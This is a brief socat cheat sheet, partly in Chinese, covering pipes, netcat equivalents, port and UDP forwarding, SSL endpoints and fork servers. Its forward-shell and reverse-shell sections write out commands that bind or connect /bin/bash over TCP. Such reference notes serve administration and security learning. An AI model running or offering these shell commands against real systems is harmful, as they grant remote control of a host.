 # socat as cat
socat - -

socat - file

echo "hello" | socat - file

# socat as nc
nc localhost 80

socat - TCP:localhost:80

nc -lp localhost 700

socat TCP-LISTEN:700 -

# 正向 shell
nc -lp localhost 700 -e /bin/bash

socat TCP-LISTEN:700 EXEC:/bin/bash

# 反弹 shell
nc localhost 700 -e /bin/bash

socat tcp-connect:localhost:700 exec:'bash -li',pty,stderr,setsid,sigint,sane

# 将本地 80 端口转发到远程的 80 端口
socat TCP-LISTEN:80,fork TCP:www.domain.org:80

# SSL 服务器
socat OPENSSL-LISTEN:443,cert=/cert.pem -
需要首先生成证书文件

# SSL 客户端
socat - OPENSSL:localhost:443

# fork 服务器
可以将一个使用标准输入输出的单进程程序变为一个使用 fork 方法的多进程服务

socat TCP-LISTEN:1234,reuseaddr,fork EXEC:./app

# forward UDP
socat UDP4-RECVFROM:161,fork UDP4-SENDTO:localhost:10161

# Server udp forward
socat udp-listen:port1 udp-listen:port2

# send data to server udp port
socat - udp:serverip:port

# receive data from server udp port
socat udp:serverip:port

# debug socat
socat -d -d

# forward UDP
socat -d -d UDP4-RECV:1234 UDP4-SENDTO:localhost:2234
